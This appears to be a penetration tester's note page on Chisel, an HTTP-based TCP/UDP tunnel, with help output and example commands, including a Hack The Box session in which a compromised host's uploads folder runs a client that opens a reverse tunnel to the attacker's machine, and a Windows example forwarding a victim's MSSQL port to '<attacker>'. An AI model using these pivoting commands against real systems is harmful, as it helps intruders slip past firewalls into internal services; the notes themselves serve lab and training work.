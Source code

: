 ```yaml
---
Description: A fast TCP/UDP tunnel, transported over HTTP, secured via SSH
URL: https://github.com/jpillora/chisel
---
```


>[!summary]
>Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

## Usage

```bash
$ chisel --help

  Usage: chisel [command] [--help]

  Version: X.Y.Z

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Examples:

```bash
$ chisel server --port $PORT --proxy http://example.com
# listens on $PORT, proxy web requests to http://example.com

$ chisel client https://chisel-demo.herokuapp.com 3000
# connects to chisel server at https://chisel-demo.herokuapp.com,
# tunnels your localhost:3000 to the server's localhost:3000

## Remote tunnel
┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ ./chisel_1.7.7_linux_amd64 server -p 3000 --reverse
2022/05/23 13:20:13 server: Reverse tunnelling enabled
2022/05/23 13:20:13 server: Fingerprint fm9tUZlKfgimQ9iuIXsEGwfgoo8om8q5kAP2SBMVJb4=
2022/05/23 13:20:13 server: Listening on http://0.0.0.0:3000

/app/public/uploads $ ./chisel_1.7.7_linux_amd64 client 10.10.14.46:3000 R:3001:10.129.68.116:3000
2022/05/23 11:22:55 client: Connecting to ws://10.10.14.46:3000
2022/05/23 11:22:55 client: Connected (Latency 39.166891ms)

# Reverse port forwarding (forward to your attacker machine a victim's local port)
$ ./chisel server --port 9002 --reverse
C:\Windows\Temp>.\chisel.exe client <attacker>:9002 R:1433:localhost:1433
```